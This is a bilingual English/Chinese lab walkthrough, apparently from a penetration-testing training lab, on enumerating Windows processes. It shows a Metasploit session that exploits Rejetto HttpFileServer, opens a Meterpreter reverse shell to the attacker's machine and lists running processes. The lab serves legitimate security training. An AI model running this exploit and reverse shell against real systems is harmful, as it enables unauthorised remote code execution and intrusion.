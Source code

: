 # Enumerating Processes & Services（枚举进程和服务）
## Overview（概述）
Goal

This lab covers the process of enumerating running processes and services on a Windows target.

目标

本实验涵盖了在 Windows 目标上枚举正在运行的进程和服务的过程。

## 复现视频内容
Target IP Address : 10.0.23.161

Kali Linux : 10.10.21.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.23.161
RHOSTS => 10.0.23.161
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.21.3:4444 
[*] Using URL: http://0.0.0.0:8080/5bADt8e
[*] Local IP: http://10.10.21.3:8080/5bADt8e
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /5bADt8e
[*] Sending stage (180291 bytes) to 10.0.23.161
[*] Meterpreter session 1 opened (10.10.21.3:4444 -> 10.0.23.161:49238) at 2023-06-05 07:07:20 +0530
[!] Tried to delete %TEMP%\FmJep.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                           Path
 ---   ----  ----                  ----  -------  ----                           ----
 0     0     [System Process]                                                    
 4     0     System                x64   0                                       
 336   656   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE   C:\Windows\System32\svchost.exe
 348   4     smss.exe              x64   0                                       
 492   484   csrss.exe             x64   0                                       
```